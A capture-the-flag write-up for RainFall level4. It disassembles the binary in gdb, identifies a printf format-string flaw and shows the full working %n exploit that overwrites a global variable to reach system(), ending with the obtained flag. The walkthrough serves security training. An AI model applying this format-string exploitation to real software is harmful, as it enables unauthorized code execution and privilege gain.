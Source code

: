 # Level4

## Exploring the binary
```shell
level4@RainFall:~$ ./level4
phantom
phantom
level4@RainFall:~$ ./level4
society 42
society 42
```
Once again executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
We see a comparison of variable <code>0x8049810</code> against <code>$0x1025544</code>.
```shell
(gdb) x/m 0x8049810
0x8049810 <m>:	Undefined output format "m".
(gdb) print 0x1025544
$1 = 16930116
```
Similarly to <code>level4</code>, there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x08048588  _fp_hw
0x0804858c  _IO_stdin_used
0x080486f8  __FRAME_END__
0x080496fc  __CTOR_LIST__
0x080496fc  __init_array_end
0x080496fc  __init_array_start
0x08049700  __CTOR_END__
0x08049704  __DTOR_LIST__
0x08049708  __DTOR_END__
0x0804970c  __JCR_END__
0x0804970c  __JCR_LIST__
0x08049710  _DYNAMIC
0x080497dc  _GLOBAL_OFFSET_TABLE_
0x080497fc  __data_start
0x080497fc  data_start
0x08049800  __dso_handle
0x08049804  stdin@@GLIBC_2.0
0x08049808  completed.6159
0x0804980c  dtor_idx.6161
0x08049810  m
```

Function <code>n</code> also invokes another pre-made function, <code>p()</code>, prompting us to conduct an inspection.
```shell
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```
We opt to execute another <code>format string</code> attack.

## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil)
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 15' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
We found that the string <code>AAAA</code> resides in the twelfth position. With our understanding of the format string's location in the stack, our next step is to craft a string 16930116 characters in length, embedding the address of the variable (<code>0x08049810</code>) crucial for spawning the shell.

## Exploit
``` shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 - | ./level4
[...]
                                       -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
